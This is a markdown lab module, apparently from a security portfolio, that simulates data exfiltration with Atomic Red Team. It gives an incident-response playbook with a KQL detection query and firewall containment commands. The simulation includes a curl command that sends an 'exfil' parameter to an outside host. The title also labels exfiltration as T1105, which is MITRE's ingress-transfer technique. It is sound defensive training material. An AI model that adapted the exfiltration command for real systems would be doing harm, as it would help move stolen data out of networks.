

# Module 03: Application Layer Protocol Data Exfiltration (MITRE ATT&CK T1105)

## 1. Technical Attack Simulation
* **Adversary Objective:** Staging, packaging, and moving sensitive transaction data or digital footprint logs outside the network perimeter while blending into normal outbound web traffic to evade basic firewall barriers.
* **Execution Command:**
    ```powershell
    curl "[http://www.google.com/?exfil=Financial_Fraud_Logs_Dump](http://www.google.com/?exfil=Financial_Fraud_Logs_Dump)" -UseBasicParsing
    ```

---

## 2. Incident Response Playbook

### 🛠️ Phase 1: Detection & Analysis
* **SIEM Threat Hunting Query (KQL):**
    ```text
    message : *exfil* or message : *curl*
    ```
* **Telemetry Verification:** Monitor your analytics dashboard for high-volume outbound application-layer requests matching scripting utility signatures.
* **Forensic Parsing:** Access the **Expanded Document panel** on the right side of the Kibana interface. Verify **Sysmon Event ID 11 (File Created)** or **Event ID 3 (Network Connection Detected)**. Look closely at the parsed parameter variables: the SIEM tracks the system actively loading the fundamental network dynamic link library (**`libcurl.dll`**) inside a high-risk directory profile containing the exact framework signature folder path **`\atomics\T1105\`**.

### 🛡️ Phase 2: Containment
* **Emergency Egress Blocking:** Execute a host-level administrative fire rule to instantly cut off all outbound public web traffic from the compromised device:
    ```powershell
    New-NetFirewallRule -DisplayName "Emergency Quarantine" -Direction Outbound -Action Block
    ```
* **Domain Reputation Isolation:** Blacklist the target destination IP address or malicious external domain variable across all corporate edge routing firewalls to block further data loss.

### 🧹 Phase 3: Eradication
* **Forensic Staging Directory Wipe:** Locate the specific folder pathway flagged in the `winlog.event_data.TargetFilename` logs (`...\Downloads\atomic-red-team-master\...\bin\`) and permanently delete the staging binaries and malicious library scripts.
* **Data Integrity Check:** Run an advanced configuration scan on all local networking adapters to ensure no persistent unauthorized proxy configurations or hidden network listeners remain.

### 📝 Phase 4: Lessons Learned & Enterprise Scalability
* **Egress Traffic Monitoring:** Implement deep packet inspection (DPI) or proxy auditing to alert security teams when administrative or developer utilities make unusual connection sizes or pass text arguments to external public systems.
* **Digital Forensics & Financial Fraud Integration:** This granular field parsing architecture is completely scalable. The exact same Elastic pipeline can simultaneously ingest log streams from Web Application Firewalls (WAF) and core financial transaction systems. By correlating local process anomalies with external network traffic footprints, incident response teams can map out a complete **digital footprint**—tracing a threat actor from the initial post-phishing host exploit straight to the endpoint of unauthorized financial transfers across an enterprise network.

---

## 🖼️ Forensic Artifact Evidence

### SIEM Ingestion Query Hits


### Expanded Field Parsing Metadata (Forensic Identification)

